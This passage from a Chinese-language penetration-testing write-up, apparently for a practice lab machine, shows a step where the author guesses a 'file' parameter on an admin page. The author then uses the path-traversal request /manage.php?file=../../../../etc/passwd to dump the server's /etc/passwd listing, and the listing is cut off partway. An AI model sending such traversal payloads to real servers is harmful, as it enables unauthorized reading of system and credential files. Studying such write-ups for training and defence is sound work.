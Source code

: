     ![image.png](image%2048.png)
    
5. 进入后台发现底下写着`File does not exist` 可能存在某个参数，使用常见参数进行测试比如`file`
    
    ```python
    /manage.php?file=../../../../etc/passwd
    ```
    
    回显`/etc/passwd`文件内容
    
    ```python
    File does not exist
    root:x:0:0:root:/root:/bin/bash 
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
    bin:x:2:2:bin:/bin:/usr/sbin/nologin 
    sys:x:3:3:sys:/dev:/usr/sbin/nologin 
    sync:x:4:65534:sync:/bin:/bin/sync 
    games:x:5:60:games:/usr/games:/usr/sbin/nologin 
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin 
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin 
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin 
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin 
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin 
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin 
    systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin 
    systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin 
    systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin 
    messagebus:x:104:110::/nonexistent:/usr/sbin/nologin sshd:x:105:65534::/run/sshd:/usr/sbin/nologin 
    systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin 
    mysql:x:106:113:MySQL Server,,,:/nonexistent:/bin/false 
    marym:x:1001:1001:Mary Moe:/home/marym:/bin/bash 
    julied:x:1002:1002:Julie Dooley:/home/julied:/bin/bash 
    fredf:x:1003:1003:Fred Flintstone:/home/fredf:/bin/bash 
    barneyr:x:1004:1004:Barney Rubble:/home/barneyr:/bin/bash 
    tomc:x:1005:1005:Tom Cat:/home/tomc:/bin/bash 
    jerrym:x:1006:1006:Jerry Mouse:/home/jerrym:/bin/bash 
    wilmaf:x:1007:1007:Wilma Flintstone:/home/wilmaf:/bin/bash 
    bettyr:x:1008:1008:Betty Rubble:/home/bettyr:/bin/bash 
    chandlerb:x:1009:1009:Chandler Bing:/home/chandlerb:/bin/bash 